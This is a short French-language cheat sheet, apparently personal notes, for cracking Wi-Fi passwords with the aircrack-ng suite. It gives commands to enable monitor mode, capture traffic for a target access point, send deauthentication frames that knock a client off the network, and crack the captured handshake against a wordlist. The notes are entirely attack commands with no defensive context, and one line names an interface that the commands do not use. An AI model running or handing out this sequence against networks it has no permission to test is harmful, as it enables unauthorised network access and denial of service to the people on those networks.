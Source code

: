 ### monitor mode

```
airmon-ng start wlan0
```

- stop pour quitter)
- airmon-ng check kill : si problème

### dump

```
airodump-ng wlan0
airodump-ng --bssid <mac_adresse> --channel <channel> -w <output_file>
```

### deauth

```
aireplay-ng -0 1 -a <mac_adresse> -c <mac_adresse> wlan0
```

- -0  : deauthentication
- 1 : nombre à envoyer
- -a 00:14:6C:7E:40:80 : adresse MAC du point d'accès
- -c 00:0F:B5:FD:FB:C2 : adresse MAC du client qu'on deauth
- ath0 : nom de l'interface

### crack

```
aircrack-ng -w <wordlist> -b <BSSID> test.cap
```
